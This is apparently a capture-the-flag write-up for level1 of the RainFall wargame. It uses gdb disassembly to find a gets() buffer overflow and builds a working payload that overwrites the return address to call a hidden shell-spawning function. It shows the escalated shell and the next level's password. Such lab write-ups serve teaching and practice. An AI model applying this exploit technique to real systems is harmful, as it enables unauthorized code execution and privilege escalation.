 # Level1

Using gdb:

	(gdb) disas main
	Dump of assembler code for function main:
	   0x08048480 <+0>:	push   %ebp
	   0x08048481 <+1>:	mov    %esp,%ebp
	   0x08048483 <+3>:	and    $0xfffffff0,%esp
	   0x08048486 <+6>:	sub    $0x50,%esp
	   0x08048489 <+9>:	lea    0x10(%esp),%eax
	   0x0804848d <+13>:	mov    %eax,(%esp)
	   0x08048490 <+16>:	call   0x8048340 <gets@plt>
	   0x08048495 <+21>:	leave  
	   0x08048496 <+22>:	ret    
	End of assembler dump.
	
We can also find a function in the source code which is never used :

	(gdb) disas run
	Dump of assembler code for function run:
	   0x08048444 <+0>:	push   %ebp
	   0x08048445 <+1>:	mov    %esp,%ebp
	   0x08048447 <+3>:	sub    $0x18,%esp
	   0x0804844a <+6>:	mov    0x80497c0,%eax
	   0x0804844f <+11>:	mov    %eax,%edx
	   0x08048451 <+13>:	mov    $0x8048570,%eax
	   0x08048456 <+18>:	mov    %edx,0xc(%esp)
	   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
	   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
	   0x0804846a <+38>:	mov    %eax,(%esp)
	   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
	   0x08048472 <+46>:	movl   $0x8048584,(%esp)
	   0x08048479 <+53>:	call   0x8048360 <system@plt>
	   0x0804847e <+58>:	leave  
	   0x0804847f <+59>:	ret    
	End of assembler dump.

This run function is able to start a shell. The goal is to call this function within the main.
The gets function in the main is prone to buffer overflow attacks. Since we know the buffer size, we can start to craft a payload that will overwrite the EIP register (instruction pointer), to pass it the address of run. We can see its address is 0x08048444.

                        +---------------+ Highest Address 0xffffffff
                        | cmd line args |
                        | env Variable  |
                        +---------------+
                        |     STACK     |
                        +--+------------+
                        |  |            |
                        |  |            |
                        |  v         ^  |
                        |            |  |
                        |            |  |
                        +------------+--+
                        |     HEAP      |
                        +---------------+
                        | Uninitialized |
                        |   Data(BSS)   |
                        +---------------+
                        |  Initialized  |
                        |     Data      |
                        +---------------+
                        |   Read Only   |
                        |     data      |
                        |       +       |
                        |     code      |
                        +---------------+ Lowest Address 0X00000000



                       +   Previous function  +
                       |     Stack frame      +
                       |                      |
                       +----------------------+ <--+ previous function stack frame end here
                       |Space for return value|
                       +----------------------+
                       |Arguments for function|
                       +----------------------+
                       |    return address    |
                       +----------------------+
                       |     saved $ebp       |
                       +----------------------+
                       |                      | <--+  padding done by compilers
                       +------------+---------+
                       |         |4 |         |
                       |         |3 |         |
                       |         |2 | ^       |
                       |         |1 | |       |
                       |      ch |0 | |       |
                       +------------+-+-------+
                       |                      |
                       |     unused space     |
                       +                      +

[source](https://github.com/rosehgal/BinExp/tree/master)

Let's first check the maximum size of the buffer: 

	$ python -c 'print("A"*70 + "BCDEFGHIJK")' > payload

Looking at the registers, we see :

	(gdb) r < payload
	Starting program: /home/user/level1/level1 < payload

	Program received signal SIGSEGV, Segmentation fault.
	0x4b4a4948 in ?? ()
	(gdb) info registers
	[...]
	esp            0xbffff740	0xbffff740
	ebp            0x47464544	0x47464544
	esi            0x0	0
	edi            0x0	0
	eip            0x4b4a4948	0x4b4a4948
	[...]

The value of EBP is 0x47464544, corresponding to the following ascii characters : G(47), F(46), E(45), D(44). 
The value of EIP is 0x4b4a4948, corresponding to the following ascii characters : H(48), I(49), J(4a), K(4b)
It means we overwrite the EIP register using the 77-80th characters.
If we pass the address of the run function to EIP, it will be executed as the next instruction.

	python -c 'print "A"*76+"\x44\x84\x04\x08"' > payload // address in little endian order

By passing this payload as argument, the binary will start a shell. We also need to keep stdin open using 'cat -'.

	level1@RainFall:~$ cat payload - | ./level1 
	Good... Wait what?
	id
	uid=2030(level1) gid=2030(level1) euid=2021(level2) egid=100(users) groups=2021(level2),100(users),2030(level1)
	cd ../level2
	cat .pass
	53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77

